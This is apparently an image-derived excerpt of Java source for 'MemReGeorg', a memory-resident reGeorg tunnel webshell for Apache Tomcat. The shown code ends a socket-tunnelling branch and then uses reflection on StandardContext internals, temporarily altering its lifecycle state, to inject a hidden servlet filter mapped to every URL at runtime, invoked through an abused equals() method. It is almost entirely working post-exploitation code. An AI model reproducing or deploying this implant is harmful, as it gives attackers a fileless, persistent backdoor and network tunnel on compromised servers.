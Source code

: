 ```java
                    response.setHeader("X-STATUS", "FAIL");
                    socketChannel.socket().close();
                }
            }
        } else {
            filterChain.doFilter(request, response);
        }
    }

    public boolean equals(Object obj) {
        Object[] context=(Object[]) obj;
        this.session = (javax.servlet.http.HttpSession ) context[2];
        this.response = (org.apache.catalina.connector.Response) context[1];
        this.request = (javax.servlet.http.HttpServletRequest) context[0];

        try {
            dynamicAddFilter(new MemReGeorg(),"reGeorg","/*",request);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }

        return true;
    }

    public static void dynamicAddFilter(javax.servlet.Filter filter,String name,String url,javax.servlet.http.HttpServletRequest request) throws IllegalAccessException {
        javax.servlet.ServletContext servletContext=request.getServletContext();
        if (servletContext.getFilterRegistration(name) == null) {
            java.lang.reflect.Field contextField = null;
            org.apache.catalina.core.ApplicationContext applicationContext =null;
            org.apache.catalina.core.StandardContext standardContext=null;
            java.lang.reflect.Field stateField=null;
            javax.servlet.FilterRegistration.Dynamic filterRegistration =null;

            try {
                contextField=servletContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
                contextField=applicationContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                standardContext= (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);
                stateField=org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                stateField.setAccessible(true);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTING_PREP);
                filterRegistration = servletContext.addFilter(name, filter);
                filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,new String[]{url});
                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                filterStartMethod.setAccessible(true);
                filterStartMethod.invoke(standardContext, null);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }catch (Exception e){
                ;
            }finally {
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }
        }
    }
}
```